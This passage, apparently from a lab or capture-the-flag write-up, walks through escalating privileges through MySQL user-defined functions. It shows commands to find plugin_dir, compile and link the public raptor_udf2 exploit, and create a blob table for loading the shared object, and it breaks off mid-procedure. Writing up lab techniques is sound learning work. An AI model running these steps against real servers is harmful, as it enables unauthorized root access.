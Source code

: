 - Find the location where MySQL looks for shared object files, identified by the <code>plugin_dir</code> variable:

``` 
mysql> show variables like "plugin_dir";
+---------------+------------------------+
| Variable_name | Value                  |
+---------------+------------------------+
| plugin_dir    | /usr/lib/mysql/plugin/ |
+---------------+------------------------+
1 row in set (0.00 sec)
```

The required directory is found at <code>/usr/lib/mysql/plugin/</code>. This is where we'll put our UDF object files.

- Now it's time to compile the object file. The exploit that allows privilege escalation is called[raptor_udf2.c](https://www.exploit-db.com/exploits/1518/). I downloaded it to the compromised machine, and followed the instructions in the source code to compile it:

``` 
gcc -g -c raptor_udf2.c
```

If you are lost in the myriad of GCC options from its manpage, there is a cool page offering [options summary](https://gcc.gnu.org/onlinedocs/gcc/Option-Summary.html) in a way that lets you jump to whatever interests you. Here, I compiled the C file without linking, and with debugging information. This produced an object file called <code>raptor_udf2.o</code>. 

- Next, you create a shared library and link it:

``` 
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

If you copy from the source code, you have to change the 1 in *-W1* to a lowercase l, otherwise you get an error. Here's a [good resource](http://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html) to help you untangle the above command. Now you should also have in your directory a shared object called <code>raptor_udf2.so</code>.

- Now you create a table inside MySQL and insert the shared object contents. Switch to the mysql DB:

``` 
mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

Create table:

``` 
mysql> create table foo(line blob);
Query OK, 0 rows affected (0.03 sec)
```

Load your .so file:
